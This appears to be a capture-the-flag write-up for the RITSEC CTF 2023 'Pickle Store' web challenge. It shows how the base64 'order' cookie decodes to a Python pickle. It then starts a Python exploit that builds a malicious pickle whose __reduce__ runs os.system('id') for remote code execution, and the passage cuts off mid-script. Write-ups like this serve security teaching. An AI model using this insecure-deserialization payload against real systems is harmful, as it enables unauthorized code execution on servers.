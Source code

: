When those buttons are clicked, it'll bring us to `/order`, and set a new cookie called `order`, with value base64 encoded string. It's base64 encoded because the last character has `=`, which is a base64 encoding's padding character.

Let's click on the first one:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230402123310.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230402123324.png)

As excepted, it brings us to `/order`, and response us the pickle name.

**Now, I wonder what's that base64 string. Let's decode that!**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|12:34:45(HKT)]
└> echo 'gASVDwAAAAAAAACMC3N3ZWV0cGlja2xllC4=' | base64 -d | xxd
00000000: 8004 950f 0000 0000 0000 008c 0b73 7765  .............swe
00000010: 6574 7069 636b 6c65 942e                 etpickle..
```

As you can see, after decoded, it's just some raw bytes.

Luckly, this challenge's title and website contents gave us a big hint: ***Pickle***.

In Python, there's a library called "Pickle", which is an object ***serialization*** library for Python.

> The [`pickle`](https://docs.python.org/3/library/pickle.html#module-pickle "pickle: Convert Python objects to streams of bytes and back.") module implements binary protocols for serializing and de-serializing a Python object structure. _“Pickling”_ is the process whereby a Python object hierarchy is converted into a byte stream, and _“unpickling”_ is the inverse operation, whereby a byte stream (from a [binary file](https://docs.python.org/3/glossary.html#term-binary-file) or [bytes-like object](https://docs.python.org/3/glossary.html#term-bytes-like-object)) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” \[[1]\](https://docs.python.org/3/library/pickle.html#id7) or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”. (From [`pickle` documentation](https://docs.python.org/3/library/pickle.html))

**If you go to [Pickle's documentation](https://docs.python.org/3/library/pickle.html), you'll see this:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230402123806.png)

## Exploitation

Armed with above information, it's clear that the `order` cookie is vulnerable to ***Insecure Deserialization via Python's Pickle***.

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can gain Remote Code Execution (RCE) via the `__reduce__` magic method:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230402124014.png)

**Now, let's create our own evil pickle serialized object, and send it!!**
```py
#!/usr/bin/env python3
import pickle, os, base64
import requests

class P(object):
    def __reduce__(self):
        return (os.system,("id ",))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(P())).decode()
    print(f'[*] Payload: {pickledPayload}')

    URL = 'https://pickles-web.challenges.ctf.ritsec.club/order'
```